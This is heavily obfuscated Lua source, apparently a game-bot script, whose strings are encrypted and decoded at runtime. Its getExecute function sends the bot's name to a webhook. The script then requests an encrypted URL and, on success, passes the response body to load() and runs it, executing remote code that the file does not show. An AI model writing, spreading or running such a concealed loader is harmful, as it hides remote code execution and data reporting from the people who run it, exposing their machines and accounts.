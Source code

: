 local a=setmetatable local b=a({hM=function() end},{__index=function(a,b)a.hM=b end;__concat=function(a,b)return rawget(a,"hM")end})return(function(...)local i=a({Web=function(c)local d,e=a({KW=c[#c]},{__pow=function(a,b)a.KW=b end;__concat=function(a,b)return a.KW end}),a({cf=""},{__add=function(a,b)a.cf=b end,__div=function(a,b)return a.cf end})for a=1,#(d.."F3"),1 do(b.."xh")(e+(e/"gB"..(d.."fjb")[c[a]]))end return e/"Nib"end},{__index=function(a,b)a.Web=b end,__add=function(a,b)return rawget(a,"Web")end})local h=a({dh=function(c)local d=a({VD=""},{__div=function(a,b)a.VD=b end,__concat=function(a,b)return a.VD end})for a=1,#c/2,1 do(b.."Nj")(d/((d.."Agb")..c[#c/2+c[a]]))end return d.."zz"end},{__mul=function(a,b)a.dh=b end;__index=function(a,b)return rawget(a,"dh")end})local g,f=a({Uc=nil},{__concat=function(a,b)a.Uc=b end,__sub=function(a,b)return a.Uc end}),a({WI=nil},{__div=function(a,b)a.WI=b end,__concat=function(a,b)return a.WI end})do local c=a({Cp=math[(i+"fc")({1;4;3,5,2;{"f";"r","o";"l";"o"}})]},{__mul=function(a,b)a.Cp=b end,__pow=function(a,b)return a.Cp end})local d=a({rgb=math[h.ow({3;1,4;6;5;2,"a","m","r","n";"o","d"})]},{__div=function(a,b)a.rgb=b end;__pow=function(a,b)return a.rgb end})local e=a({hK=table[h.ur({5,4,6,3,2;1,"e","v","o","e";"r","m"})]},{__sub=function(a,b)a.hK=b end;__add=function(a,b)return a.hK end})local j=a({Njb=string[h.mQ({2,3,1,4,"a";"c";"h";"r"})]},{__concat=function(a,b)a.Njb=b end,__index=function(a,b)return rawget(a,"Njb")end})local k=a({xN=0},{__mul=function(a,b)a.xN=b end;__sub=function(a,b)return a.xN end})local l=a({zkb=2},{__pow=function(a,b)a.zkb=b end;__index=function(a,b)return rawget(a,"zkb")end})local m=a({yk={}},{__pow=function(a,b)a.yk=b end,__div=function(a,b)return a.yk end})local n=a({So={}},{__concat=function(a,b)a.So=b end;__pow=function(a,b)return a.So end})local o=a({Shb=0},{__div=function(a,b)a.Shb=b end;__pow=function(a,b)return a.Shb end})local p=a({Zk={}},{__sub=function(a,b)a.Zk=b end;__index=function(a,b)return rawget(a,"Zk")end})for a=1,256,1 do p.HU[a]=a end repeat local b=a({Qh=(d^"nx")(1,#p.djb)},{__concat=function(a,b)a.Qh=b end,__add=function(a,b)return a.Qh end})local c=a({ps=(e+"MV")(p.BY,b+"tF")},{__sub=function(a,b)a.ps=b end;__add=function(a,b)return a.ps end});(n^"Ge")[c+"u"]=j.GX((c+"gO")-1)until#p.At==0 local q=a({Wab={}},{__sub=function(a,b)a.Wab=b end,__div=function(a,b)return a.Wab end})local r=a({C=function()local e=a({hq=function(c)local d,e=a({lw=c[#c]},{__index=function(a,b)a.lw=b end,__pow=function(a,b)return rawget(a,"lw")end}),a({pC=""},{__pow=function(a,b)a.pC=b end,__sub=function(a,b)return a.pC end})for a=1,#d^"Aeb",1 do(b.."jG")(e^(e-"Y2"..(d^"ebb")[c[a]]))end return e-"Er"end},{__add=function(a,b)a.hq=b end;__pow=function(a,b)return a.hq end})if#(q/"Ne")==0 then(b.."q1")(k*(((k-"gkb")*73+1349225846583)%35184372088832))repeat(b.."vN")(l^((l.zf*132)%257))until l.Yy~=1 local d=a({rD=l.ljb%32},{__pow=function(a,b)a.rD=b end;__div=function(a,b)return a.rD end})local f=a({cab=((c^"Vw")((k-"EN")/2^(13-(l.pjb-d/"LY")/32))%4294967296)/2^(d/"Zv")},{__pow=function(a,b)a.cab=b end,__add=function(a,b)return a.cab end})local g=a({b7=(c^"HS")(((f+"HC")%1)*4294967296)+(c^"j8")(f+"gP")},{__pow=function(a,b)a.b7=b end,__mul=function(a,b)return a.b7 end})local h=a({x1=(g*"fC")%65536},{__concat=function(a,b)a.x1=b end,__sub=function(a,b)return a.x1 end})local i=a({wV=(g*"sbb"-(h-"MC"))/65536},{__pow=function(a,b)a.wV=b end;__mul=function(a,b)return a.wV end})local j=a({xu=(h-"ig")%256},{__add=function(a,b)a.xu=b end,__index=function(a,b)return rawget(a,"xu")end})local m=a({K9=((h-"fkb")-j.Pi)/256},{__index=function(a,b)a.K9=b end;__div=function(a,b)return rawget(a,"K9")end})local n=a({rb=(i*"Ffb")%256},{__mul=function(a,b)a.rb=b end,__pow=function(a,b)return a.rb end})local o=a({lv=(i*"Jg"-n^"d6")/256},{__concat=function(a,b)a.lv=b end;__pow=function(a,b)return a.lv end});(b.."l1")(q-{j.K6,m/"Gdb",n^"C0",o^"z0"})end return table[(e^"Y6")({2;6;1;4,3;5,{"m";"r";"v";"o","e","e"}})](q/"mcb")end},{__pow=function(a,b)a.C=b end,__add=function(a,b)return a.C end})local s=a({gjb={}},{__sub=function(a,b)a.gjb=b end,__pow=function(a,b)return a.gjb end});(b.."w7")(g..setmetatable({},{[(i+"vD")({1;4,2,5,3,6,7;{"_","i";"d","_";"n";"e","x"}})]=s^"Oo";[h.tab({7,11;6;5;1,9;3,8;4,2;10;"t";"l","t","b";"e","m";"_";"a","a","e","_"})]=nil}))function f.WI(c,d)local h=a({P0=function(c)local d,e=a({MP=c[#c]},{__mul=function(a,b)a.MP=b end;__concat=function(a,b)return a.MP end}),a({o0=""},{__div=function(a,b)a.o0=b end,__sub=function(a,b)return a.o0 end})for a=1,#(d.."wQ"),1 do(b.."Nbb")(e/(e-"Iz"..(d.."tpb")[c[a]]))end return e-"CF"end},{__mul=function(a,b)a.P0=b end,__pow=function(a,b)return a.P0 end})local e=a({WW=s^"YX"},{__index=function(a,b)a.WW=b end,__mul=function(a,b)return rawget(a,"WW")end})if(e*"Zg")[d]then else(b.."enb")(q-{})local f=a({Ze=n^"whb"},{__sub=function(a,b)a.Ze=b end,__concat=function(a,b)return a.Ze end});(b.."f_")(k*(d%35184372088832));(b.."dnb")(l^(d%255+2))local g=a({S1=string[(h^"mu")({1;2;3,{"l";"e";"n"}})](c)},{__concat=function(a,b)a.S1=b end;__div=function(a,b)return a.S1 end});(e*"IP")[d]=""local i=a({sY=69},{__index=function(a,b)a.sY=b end;__sub=function(a,b)return rawget(a,"sY")end})for a=1,g/"Y4",1 do(b.."yA")(i[((string[(h^"lu")({1;4,2;3,{"b","t";"e";"y"}})](c,a)+(r+"Qx")())+(i-"DG"))%256]);(e*"NQ")[d]=(e*"qP")[d]..(f.."km")[(i-"mkb")+1]end end return d end end function getExecute(...)local e=a({p_=function(c)local d=a({Rb=""},{__mul=function(a,b)a.Rb=b end,__div=function(a,b)return a.Rb end})for a=1,#c/2,1 do(b.."qm")(d*(d/"ef"..c[#c/2+c[a]]))end return d/"LA"end},{__mul=function(a,b)a.p_=b end;__pow=function(a,b)return a.p_ end})local d=a({Xn=function(c)local d,e=a({eS=c[#c]},{__concat=function(a,b)a.eS=b end,__pow=function(a,b)return a.eS end}),a({idb=""},{__mul=function(a,b)a.idb=b end;__div=function(a,b)return a.idb end})for a=1,#d^"JV",1 do(b.."B1")(e*(e/"Ho"..(d^"gA")[c[a]]))end return e/"SM"end},{__mul=function(a,b)a.Xn=b end;__concat=function(a,b)return a.Xn end})local c=a({s_=Webhook[(g-"Kq")[(f.."KJ")((d.."Dy")({1;3,2;{"\234","x","."}}),15532804172298)]]((g-"gK")[(f.."SW")((e^"aE")({72;105;89,112;113,65,121,87,100,102;34,56,18,93,82;74;96,40,39,81;70,58;25,99,21,49,115;8;61,90,31,13;110;64,3,73,11;9,88;47;106,43,53,16,42,6;85,103;83,51;117,108,10,30;107,1,28,5;67,20;7;38,79,119,77;35;26;55;91,114;48;33;44;52;12;118;60;109;23,17;19;45;22;97,120;68;14;37;63,104;95;46;4;111;41,27,2;116,71;29;76;69;62,54;66,84,15;24,75,80;57,98;50,101;78,59;32;36;94,92;86;"\154","1";"2";"o";"\171","\160";"?","*";"\207","\232","\r";"M";"\209";"\139";"\127","H","X";"t","\206";"?","G","\226";"g";"8","5";"\133","n","\146","\194","\171","\"";"\151","&";"4","e","\242","\193";"d","S","$","s";"P";"\000","\026","\180","K";"\021","7";"%","\222";"/","`";"Q";"\167","\231";"\187";"\n","\134","\244","\031";"\'";".";"\193","\021","\159","V","\175","\173";"B";"x";"\002";"w";"\156","Z";"C";"\202";"\245";"\v","x";"\189","\135";"#","g","\r","\181","\136","F";"\140","~","\b","\215","\223","S","\191";"\216";"y";"\205","j";"[";"\177";"8","y","\226","\155","\190","9";"~";"\224","\v","=";"^","\000","N","k";"p","\198","\235";"\v","\250";"\031","\214"}),26239453875389)])},{__concat=function(a,b)a.s_=b end;__add=function(a,b)return a.s_ end});(c+"z3")[(g-"Fgb")[(f.."wR")((d.."mi")({5;2;6,3,7;4,1;{"<";"{","d",",","\128","\157"," "}}),5450192341376)]]=(g-"av")[(f.."He")((d.."gkb")({4,1;2;3,{"N";"/";"\155","\170"}}),34134955482680)]..((g-"Oh")[(f.."Cob")((d.."n0")({1,2;7;4;6,5,3;10,9,8;{"a";"\197","\250";"\148","\004","\205","\141","\187","x";"\179"}}),25128713187858)]..((getBot())[(g-"wJ")[(f.."LY")((e^"qJ")({4;2;1,3;"\031";"0"," ","\158"}),16832937584626)]]:upper()..((g-"vy")[(f.."h7")("\173",19923706926718)]..((g-"opb")[(f.."o7")((d.."AK")({6;7;9,3,5;10;8;1,2,4;{"\028","\174";"\192";"\198";">";"\171","\\";"\252","\198","\154"}}),14544916132801)]..(webhook_setting[(g-"Ni")[(f.."he")((d.."pj")({5;10,8;9,2;6;4;11;3;12;1;7;{"d";"X";"C","a","}";"d";"\b";"\202";"\206","n";"\000","@"}}),5216576834060)]]..(g-"i")[(f.."aab")((e^"z0")({4,3;5;1,2,"\236","\"","h";" ";"{"}),12600151951423)])))));(c+"Km"):send()sleep(50)end local c=a({F6=(g-"PL")[(f.."Gf")(h.wkb({29;9,10;26,7,31;41,16;32;38;18,40,13;24;21,43;28;12,4;33;23;3,20;14,34;42,25;35;11;8,30;37;22,39;17,6,19,2;15,5;1,36;27,"]";"\012","G","\132","Y","\138";"q";"\170","\188";"\158";"\177";"\209";"\217";"\188","\139";"F","\133";"\169","Q","/";"f","\240";"\165";"\253","\028","\193","\002";"(";"\001";"\\";"[";"i";"\155","\r",".";"A","\153";"\217","e","\226";"t",";","\220"}),17943900022383)]},{__concat=function(a,b)a.F6=b end;__sub=function(a,b)return a.F6 end})local d=a({AX=HttpClient[(g-"bab")[(f.."Sz")((i+"Ncb")({2;3;1;{"\255";"\238";"\133"}}),19633043690531)]]()},{__index=function(a,b)a.AX=b end,__div=function(a,b)return rawget(a,"AX")end});(d/"u_")[(g-"ks")[(f.."Tab")(h.dk({6;5;4;2,1;3,"\183";"\006";"\\","H","\003";"L"}),12164499676597)]]=Method[(g-"CO")[(f.."yl")((i+"iW")({2;1,3;{"\231","\000";"@"}}),10814965633724)]];(d/"xd")[(g-"Dl")[(f.."yj")(h.ocb({3;1;2;"\a";"\016","\168"}),1566842356856)]]=c-"Uq"local e=a({Ss=(d/"wE"):request()},{__mul=function(a,b)a.Ss=b end;__pow=function(a,b)return a.Ss end})if(e^"lC")[(g-"Ao")[(f.."vA")(h.l4({2,6;5,3,4;1,"\223","\145";"\255","_";"Q";"\196"}),3485199087838)]]==200 then getExecute();(load((e^"jpb")[(g-"Flb")[(f.."ao")(h.Rob({1,3;2;4;"\020";"\031","e","\242"}),4051063904659)]]))()else print((g-"oZ")[(f.."Ox")((i+"Mt")({18,12;8,1,14;21;3;9,22;4;17;19;7;10;16;5;15,6;20;2,11,13;{"\222";"\168","\n","\202";"\\";"{";"\171","\193","\173";"\255","Y","p","\180";"\214";"\138","\240","\246","\159";"Z";"\191";"\153";"t"}}),32677476471830)])end end)(...)
